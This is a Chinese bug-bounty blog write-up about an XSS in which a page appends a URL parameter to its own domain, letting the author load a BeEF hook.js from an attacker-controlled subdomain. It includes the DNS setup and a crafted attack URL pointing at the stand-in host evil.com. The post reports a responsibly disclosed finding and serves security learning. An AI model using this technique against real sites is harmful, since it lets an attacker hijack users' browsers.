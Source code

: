 ```yaml
---
title: 【经验总结】记录一次有点儿不一样的XSS
date: 2021-01-07 16:23:25
id: 210107-162325
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-9.png
summary: 最近在挖SRC的时候，碰到一个有点儿不一样的XSS，在此简单记录一下。
tags:
- XSS
- SRC
- 经验总结
categories:
- 经验总结
---
```


# 0x00 前言

最近在挖SRC的时候，碰到一个有点儿不一样的XSS，在此简单记录一下。

为了展示出较好的效果同时不泄露网站相关信息， 这里我在自己本地按照当时目标的情况简单搭建了一个靶场。

注意：文中的`target.com`代指目标域名，`evil.com`代指自己的攻击域名。

# 0x01 发现

在测试过程中，发现目标存在这样的一个 URL

```
http://target.com/index.html?/test.html
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-1.png)

在当前页面中包含了URL参数里的页面，如果将`/test.html`改为不存在的页面就会提示404

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-2.png)

查看一下源码，可以发现页面将传参的内容与站点域名进行了拼接，随后对该页面进行访问

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-3.png)

# 0x02 思考利用

目标看到这里，刚开始只是尝试的一些常规的 XSS Payload，发现目标都进行了很好的过滤，于是陷入了短暂的思考中。

之后再看看源码，想着既然它是把参数后的值拼接到站点域名后面，那如果我有个`target.com.evil.com`的域名，我在URL中传参`.evil.com`，页面拼接后所访问的地址不就是这样：

```
http://target.com.evil.com
```

这样一来，我在`target.com.evil.com`站点下，开个beef，在我访问`http://target.com/index.html?.evil.com`的时候，目标页面就会访问到我自己的域名，如果访问的域名页面中包含了 beef 的 hook.js，那目标不就上线了嘛，nice

**开整！**

首先要有个域名和 vps ，有了域名后再设置一个 `target.com` 的子域名，设置子域名也很简单，直接在域名的DNS记录中添加一条A记录即可，名称就是`target.com`，内容就是要解析的 vps IP 地址。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-4.png)

测试一下，beef 的 hook.js 能不能访问

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-5.png)

> 这里有个坑，如果域名没有备案并且 vps 是国内的，如果同时 beef 开在 80 端口，就会导致页面一打开就会提示域名未备案，这时只要把 beef 放在其他不常用的端口上就不会提示域名未备案了。

在 beef 的 hook.js 页面可以成功访问之后，就可以构造 URL 了，这时只要 URL 后传入一个包含 hook.js 的页面就可以上线了，这里以 beef 的 demo 页面`/demos/basic.html`作为示例。

最后构造 URL 为：

```
http://target.com/index.html?.evil.com:3000/demos/basic.html
```

浏览器打开该页面

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-6.png)

可以看到当前页面成功访问到了`target.com.evil.com:3000/demos/basic.html`，此时看看 beef 里有没有上线

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-7.png)

beef 成功上线，最后再来弹个窗，嘿嘿

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-8.png)

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/diffxss-9.png)

# 0x03 最后

这个漏洞提交上去之后，相较于之前提交的较为常规的XSS，厂商给这个XSS 是其双倍的积分。

平时自己还是要多多理解漏洞产生的原因才是，要是直接用工具扫、Fuzz字典跑估计就发现利用不了这个洞了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)